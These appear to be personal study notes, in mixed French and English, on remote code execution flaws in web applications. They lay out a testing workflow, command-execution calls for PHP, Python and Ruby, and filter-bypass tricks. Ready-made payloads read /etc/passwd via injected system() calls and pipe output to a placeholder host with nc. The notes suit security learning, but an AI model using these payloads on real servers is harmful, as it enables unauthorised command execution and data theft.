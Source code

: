# RCE

## Principe

* J'ignore si l'abréviation RCE correspond à _Remote Code Execution_ ou _Remote Command Execution_, les deux étaient utilisés pour le même genre de failles dans le cours.
* Possibilité d'exécuter des commandes de l'OS sur le serveur.

## Workflow

1. Discover on which language the server runs \(python, php, ruby, etc\), and if possible which version
2. Try to break the input by inserting a `'` or an `"`
3. Try to reconstruct it after the break with just simple text
4. In function of the language, try to run a simple OS command in lieu of the dummy text
5. Construct the final payload

## Language specifics to run commands

* PHP
  * `system("command")`
* Python
  * `os.system("command")` and variants
  * Do that inside an `str()`
  * If you need to import os.system, use this function in str\(\) : `__import__('os').system(...)`
* Ruby
  * `command`

## General tips & trick

* A basic OS command for test is `uname` \(but i suppose it would work only on a linux system\)
* Si le résultat n'est pas reflété, utiliser à la place `sleep 10` pour voir si la commande a bien été injectée
  * To send back result when it's not reflected, simply pipe it to nc : `whoami | nc <ip> <port>` \(given that the remote server has nc of course\)
* When your payload is included inside a string, **use concatenation** : `" . system('cat /etc/passwd') ."`
* Don't forget to **urlencode**
* If some characters seems to be sanitized when the request first arrive, try to base64 encode them. Since the code you inject is executed, you can make the server decode it the moments it uses it.
* Bypass sanitation :
  * If the `/` is sanitize, you can usually get it by echoing the home directory `echo $HOME`
  * Si un autre caractère est sanitize et qu'il existe dans une variable d'env, on peut faire ça :
    * `echo ${ENV:13:1}` Le 1er nombre étant la position du char et le second le nombre à récupérer. Remplacer ENV par le nom de var d'env bien sûr
  * On peut aussi utiliser `printf "\x41"` en remplacer 41 par le nombre hexa correspondant

## PHP specific tips and tricks

* If you've got input reflected into the html page, try to inject `<?php phpinfo(); ?>`
* Try to get warnings instead of errors as they won't stop the execution flow
* PHP source code is available, which is useful to see how you can break out of a function
* In php, dev usually sort either by using sql's `order by` or php's `usort`. And in usort, they often used a function created with `create_function` \(however it's now deprecated\)
  * In an example using usort and then create\_function, the easiest is to try and break out create\_function, even more so since we can have it's source code. This is the pentesterlab payload that would break it \(Essential - Code Execution 2\) : `?order=id);}system('cat /etc/passwd');//`. I thinks that stems from the fact that it's used in a `sprintf` as a `%s`.
* It's been deprecated in 5.5 and removed in 7, but you could use the regex modifier `/e` to make `preg_replace` evaluate the replacement before using it :  `www.example.com/?replacement=phpinfo()&pattern=/hello/e&base=hello`

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=jkJWA_CWrQs)
* Misc Research

